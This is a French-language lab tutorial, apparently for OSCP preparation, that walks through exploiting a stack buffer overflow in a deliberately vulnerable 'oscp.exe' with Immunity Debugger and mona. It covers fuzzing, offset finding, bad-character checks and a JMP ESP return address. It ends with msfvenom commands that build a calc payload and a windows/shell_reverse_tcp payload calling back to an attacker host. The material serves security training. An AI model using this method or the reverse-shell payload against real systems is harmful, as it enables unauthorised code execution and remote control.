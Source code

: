 # IMPORTANT

Dans Immuniyy Debugger, on peut retourner à l'affichage principale en cliquant sur l'onglet `Window --> CPU`

Il faut lancer les scripts avec PYTHON3


## Mona Configuration
##### Installation de mona
https://github.com/corelan/mona
Mettre mona.py dans le répertoire:
`C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`

### Mona Configuration
Configuration du working folder :
```
!mona config -set workingfolder c:\mona\%p
```
![image](https://user-images.githubusercontent.com/93264654/206850048-908612fa-1de5-479b-8562-db6bb5a950f2.png)

Cette commande permet de créer un dossier qui sera utilisé par mona pour placer les logs/outputs.

## Lancement du programme dans Immunity

Une fois sur Immunity et mona configuré, on lance le programme en allant dans :
`File -> Open -> Desktop -> vulnerable-apps -> oscp -> oscp.exe`

![image](https://user-images.githubusercontent.com/93264654/206851817-91bf3925-ac69-4da4-a745-7aad4fe36821.png)

Puis on le démarre en cliquant sur le bouton **play**

![image](https://user-images.githubusercontent.com/93264654/206851828-e119ff91-0c74-43e9-915a-23c1e843ea57.png)



## Lister les commandes

On se connecte à l'application avec `nc -nv IP Port` puis on essaie de voir qu'elle sont les commandes de l'application qui nous permettent d'envoyer des données.

## 1 - Fuzzing

La première étape est de déterminer la commande vulnérable en faisant crash l'application.
Dans le script **fuzzer.py** on modifie l'**IP** et le **Port**, ainsi que le **Prefix**.
On attache et lance l'application dans Immunity puis on exécute le script.
On note l'offset trouvé, dans la capture ci-dessous on voit que l'application crash à 2000 octets, cela signifie que la **Return Address** est située entre **1900** et **2000** octets.

![image](https://user-images.githubusercontent.com/93264654/206849473-34be38ee-5209-4b2f-b9c1-78e4db61c0ba.png)

On redemarre l'application

![image](https://user-images.githubusercontent.com/93264654/206851859-3e77a2ff-b5bd-4d56-8466-a2e15bbcb36e.png)

## 2 - Offset

Pour trouver l'**EIP**, On génère un paterne avec metasploit de 400 octets de plus que le crash (le crash était à 2000 octets, donc on génère 2400 caractères) :
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Mettre l'output dans la variable **payload** de **exploit.py** et exécuter le script (ne pas oublier d'abord de restart l'application dans Immunity).

![image](https://user-images.githubusercontent.com/93264654/206849907-e2a0571d-2fbe-4ddd-9c5c-f139a7bb0c4e.png)



Lorsque l'application crash :
- on note la valeur de EIP en faisant **clic droit sur la valeur de l'EIP --> copy selection to Clipboard**

Puis on récupère l'offset de l'EIP avec la commande : 

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <valeur_de_EIP>
```

On peut aussi trouver l'offset EIP et ESP avec la commande : `!mona findmsp -distance 2400`
![image](https://user-images.githubusercontent.com/93264654/206849981-248be463-8efc-4f66-90b7-cf1f644122ce.png)


On note la valeur de l'offset retournée par cette commande dans la variable **offset** du script **exploit.py**.
On éfface le contenu de la variable **payload**.

![image](https://user-images.githubusercontent.com/93264654/206850260-f842aa1c-0da2-4e2a-94f5-003a24eb9422.png)


## 3 - Control the EIP

Cette étape consiste à vérifier si l'offset trouvé est le bon, en écrivant une suite de caractères B dans l'EIP.
On met dans la variable **retn** de **exploit.py** `retn="BBBB"`


On exécute le script.

Dans Immunity si l'EIP contient une suite de caractères B (/x42 en hex), alors l'offset trouvé est le bon.

## 4 - Bad Chars

A présent, nous allons rechercher les mauvais caractères.

On créer dans mona une liste de caractères en excluant directement le null byte x00 qui est bad chars par défaut (Il correspond au caractère ASCII fin de string)

```
!mona bytearray -cpb "\x00"
```
On exécute le script **genere.py** et on colle le  résultat dans la variable **payload** du script **exploit.py**

![image](https://user-images.githubusercontent.com/93264654/206850775-413305a6-92a4-43f6-be2a-133bf842127d.png)

On redémarre le programme dans Immunity puis on exécute **exploit.py**.

Une fois le programme crash, on va regarder les cractères manquant dans la stack afin de déterminer les mauvais cractères. On utilise dans Immunity la commande :

```
!mona compare -a ESP -f C:\mona\oscp\bytearray.bin
```
Cette commande permet de comparer la liste de caractère généré par mona avec les caractères présents dans la stack.

Dans l'exemple, mona nous retourne le cractères hexa \x07. Il nous indique aussi que la caractères \x00 à été omis du résultat (nous l'avons exclus précédemment).

![image](https://user-images.githubusercontent.com/93264654/206851003-3b808f4a-66ff-49c8-8998-fdcb981482ed.png)

On note sur un bloc note le cractère \x07.

On régénère avec mona nouveau avec mona un **bytearray** en excluant le bad chars trouvé \x07 :

```
!mona bytearray -cpb "\x00\x07"
```

Puis on supprime dans la variable **payload** du script **exploit.py** le mauvais caractères "\x07"
![image](https://user-images.githubusercontent.com/93264654/206851073-481feb33-94e1-4112-b50f-96181735487e.png)

On repette l'opération jusqu'à ce que mona nous affiche que rien n'est changé.
Si il n'y a plus de badchars, mona doit afficher un statuts **unmodified** et on doit avoir un message dans la console qui dit :  **!!! Hoooray, normal shellcode unmodified !!!**

![image](https://user-images.githubusercontent.com/93264654/206851102-8e59fa84-c637-4d1d-b1f5-0ba6061588dc.png)

### b. Recherche d'un JMP ESP

On demande à mona de trouver une instruction **JMP ESP** qui permet au processeur d'exécuter ce que nous avons mis dans le stack. 

Il faut que l'adresse du JMP ESP ne contienne pas de badchars, on va les exclure lors de la recherche.

On fait crash le programme avec **exploit.py** puis on tape dans Immunity :

```
!mona jmp -r esp -cpb "\x00\x07"
```
Il faut choisir un JMP ESP avec toutes les protections en **False** et qu'il soit de préférence dans une DLL.

Dans notre exemple, on prend le JMP ESP 0x625011c7

![image](https://user-images.githubusercontent.com/93264654/206851283-1ad1a114-7170-4d9a-ad7e-c9ee563bc83c.png)

On rentre l'adresse du JMP ESP dans la variable **retn** du script **exploit.py.
Il faut entrer l'adresse à l'envers car le 32bits utilise du **little endian**.

\x62\x50\x11\xc7 devient : \xc7\x11\x50\x62

![image](https://user-images.githubusercontent.com/93264654/206851449-84d4f656-cc75-4de4-aa6d-ce47c97978cb.png)




## 6 - Pop calc

On va confirmer l'execution de code sur la victime en essayant de lancer une calculatrice. Cela peut être utilisé pour validé le contenu de l'exploit.

On génère un shellcode avec msfvenom qui permet de pop une calculatrice :
```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -b "<badchars>" -f c

Dans notre exemple cela donne :
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -b "\x00\x07" -f c
```

On copie le résultat dans la variable **payload** de **exploit.py** en l'entourant avec des parenthèses.

![image](https://user-images.githubusercontent.com/93264654/206851570-07600e30-f60c-47e8-bba5-36b8e26243bb.png)

On ajoute aussi dans la variable **pading** `"x90" * 16`

![image](https://user-images.githubusercontent.com/93264654/206851582-a08273c2-cee0-4ad8-9c30-c8a3b4e82a5a.png)

On exécute le script, une calculatrice devrait pop sur la machine victime.

## 7 - Reverse Shell

Maintenant, on peut craft n'importe quel shellcode du moment qu'on respecte les bad chars.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c

Dans notre exemple :
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=4444 EXITFUNC=thread -b "\x00\x07" -f c
```

On copie le résultat dans la variable **payload** de **exploit.py** en l'entourant avec des parenthèses.

![image](https://user-images.githubusercontent.com/93264654/206851570-07600e30-f60c-47e8-bba5-36b8e26243bb.png)

Il ne reste plus qu'a exécuter **exploit.py** pour obtenir un reverse shell.
